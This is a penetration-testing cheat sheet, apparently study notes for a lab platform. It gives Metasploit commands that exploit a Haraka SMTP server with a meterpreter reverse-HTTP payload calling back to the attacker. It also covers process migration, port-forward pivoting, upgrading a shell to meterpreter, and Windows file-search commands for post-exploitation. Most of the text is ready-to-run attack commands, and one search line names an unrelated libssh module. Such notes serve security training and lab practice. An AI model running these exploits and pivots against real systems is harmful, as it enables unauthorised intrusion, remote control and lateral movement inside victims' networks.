 #### SMTP

```bash
# SMTP
search libssh_auth_bypass
use exploit/linux/smtp/haraka
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set LHOST <LOCAL_IP>
set LPORT 8080
run
# This is a NON-staged payload
```

### Post-Exploitation Fundamentals

```bash
# METERPRETER
run post/windows/manage/migrate
migrate <pid> #more quickly
## Pivoting
portfwd add -l <LOCAL_PORT> -p <TARGET_PORT> -r <TARGET_IP>
```

```bash
# Manual SHELL TO METERPRETER
background # or CTRL+Z
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST <LOCAL_IP>
run

sessions
sessions 2

# Auto SHELL TO METERPRETER
sessions -u 1
sessions 3
```

### Win Post-Exploitation

#### **To search for files and Folders**

<pre class="language-bash"><code class="lang-bash">dir /b/s "\*.conf\*"
dir /b/s "\*.txt\*"
dir /b/s "\*filename\*"
cd         #it's the same as 'pwd' command in linux
type       #it's the same as 'cat' command in linux
systeminfo         #information about the Operating System
